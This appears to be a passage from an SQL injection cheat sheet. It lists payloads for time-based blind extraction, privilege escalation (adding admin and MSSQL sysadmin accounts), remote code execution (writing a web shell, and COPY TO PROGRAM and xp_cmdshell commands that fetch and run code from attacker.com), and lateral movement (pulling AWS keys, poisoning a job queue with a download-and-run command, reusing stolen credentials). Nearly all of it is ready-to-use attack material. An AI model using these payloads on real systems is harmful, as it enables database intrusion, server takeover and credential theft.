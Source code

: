 Blind SQLi (Time-Based - MySQL)

  `?id=1 AND IF(SUBSTRING((SELECT password FROM users LIMIT 1),1,1)='a', SLEEP(5), 0)-- -`

## Step 6: Privilege Escalation

Set Yourself as Admin

  `'; UPDATE users SET role='admin' WHERE username='guest';--`

Add a New Admin User (MySQL)

  `'; INSERT INTO users (username, password, role) VALUES ('haxor', '123456', 'admin');--`

MSSQL Escalation via Stacked Queries

  `'; EXEC sp_addlogin 'haxor', 'Password123!'; EXEC sp_addsrvrolemember 'haxor', 'sysadmin';--`

## Step 7: Remote Code Execution (RCE)

MySQL – Write Web Shell

  `?id=1 UNION SELECT "" INTO OUTFILE '/var/www/html/shell.php'-- -`

PostgreSQL – Command Execution
```sql
COPY (SELECT '') TO PROGRAM 'curl http://attacker.com/shell.sh | bash';
```

MSSQL – Using xp_cmdshell
```sql
  '; EXEC xp_cmdshell 'powershell -Command "Invoke-WebRequest http://attacker.com/shell.exe -OutFile C:\\shell.exe && Start-Process C:\\shell.exe"';--
```
  *Prerequisite: xp_cmdshell must be enabled.*

## Step 8: Lateral Movement

Enumerate Internal Services (from logs)
```sql
UNION SELECT DISTINCT ip_address FROM logs WHERE url LIKE '%admin%'-- -
```

Extract AWS Keys
```sql
SELECT config_value FROM config WHERE config_key LIKE '%aws%' OR config_key LIKE '%s3%';
```

Poison Internal Job Queue (Redis-style)
```sql
INSERT INTO job_queue (task) VALUES ('curl http://attacker.com/malware.sh | bash');
```

Reuse Creds in Internal Admin Panel (if auth table leaked)
```sql
POST /admin/login
username=haxor&password=stolenpass
```
